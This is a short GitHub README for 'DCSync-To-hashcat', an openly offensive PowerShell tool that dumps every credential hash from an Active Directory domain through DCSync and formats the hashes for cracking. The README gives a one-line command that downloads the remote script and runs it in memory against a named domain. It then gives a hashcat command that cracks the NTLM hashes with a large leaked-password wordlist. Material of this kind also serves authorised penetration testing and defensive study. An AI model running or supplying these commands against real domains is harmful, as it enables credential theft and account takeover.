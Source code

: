 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

Execute from GitHub:

```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1);Invoke-DCSyncTH -Domain security.local
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

# hashcat

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
